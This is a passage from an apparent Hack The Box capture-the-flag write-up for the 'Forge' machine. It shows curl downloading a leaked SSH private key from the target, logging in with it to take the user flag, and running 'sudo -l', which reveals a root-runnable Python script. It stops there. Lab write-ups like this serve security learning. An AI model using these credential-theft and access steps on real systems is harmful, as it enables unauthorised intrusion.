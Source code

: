 We write the key to a file, set the correct permissions on it, ssh into the machine and grab the first flag.

```
$ curl http://forge.htb/uploads/FZ0VwlSXGSIRanmdtzN5 > user
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  2590  100  2590    0     0  36478      0 --:--:-- --:--:-- --:--:-- 36478
$ chmod 600 user
$ ssh -i user user@forge.htb
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-81-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun 12 Sep 2021 05:50:41 PM UTC

  System load:           0.0
  Usage of /:            44.0% of 6.82GB
  Memory usage:          22%
  Swap usage:            0%
  Processes:             228
  Users logged in:       1
  IPv4 address for eth0: 10.129.219.213
  IPv6 address for eth0: dead:beef::250:56ff:feb9:741e


0 updates can be applied immediately.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Sun Sep 12 17:50:00 2021 from 10.10.14.46
user@forge:~$ wc -c user.txt
33 user.txt
```

# Root

## Pdb

Checking for sudo permission the user user is able to run a python script as root.

```
user@forge:~$ sudo -l
Matching Defaults entries for user on forge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user may run the following commands on forge:
    (ALL : ALL) NOPASSWD: /usr/bin/python3 /opt/remote-manage.py
```
